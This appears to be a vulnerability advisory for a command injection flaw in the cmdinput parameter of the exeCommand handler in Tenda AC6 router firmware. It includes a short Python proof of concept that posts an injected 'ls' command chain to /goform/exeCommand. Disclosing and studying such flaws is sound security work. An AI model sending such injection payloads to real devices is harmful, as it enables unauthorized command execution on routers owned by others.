



# Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a **Command Injection** vulnerability in the **Tenda AC6 firmware version 15.03.05.16_multi**. The vulnerability exists in the **exeCommand** function of the firmware. Specifically, the **cmdinput** parameter, which is passed via HTTP, allows attackers to inject arbitrary commands into the system. This vulnerability allows attackers to execute arbitrary system commands, potentially gaining unauthorized access or causing other system misconfigurations.

The issue arises from improper sanitization of user-supplied input, where an attacker can exploit the **cmdinput** parameter to inject and execute arbitrary commands. For example, an attacker could inject commands like `ls` to list directories, or use other commands to read sensitive files or execute malicious actions remotely. 


## Affected Versions
- Tenda AC6 Firmware version 15.03.05.16_multi

## Impact
- Command Injection
- Unauthorized access to the system
- Potential for information disclosure or system compromise


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/exeCommand"

data = {
    "cmdinput": "ls; ls > /execcommand.txt;"  # Example command injection
}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```

PoC Run Results:

After sending the crafted request with the injected command (ls), the command is successfully executed on the device. The response returned includes the output of the executed command. Specifically, the file system's directory listing is displayed, showing the contents of the device's directories.

Command Executed: ls (list directories)

Output: The directory contents are printed as expected, confirming that the command injection was successful and arbitrary system commands can be executed remotely.

This indicates that the device is vulnerable to command injection attacks, as the attacker was able to execute a basic ls command remotely and retrieve the file system's contents.


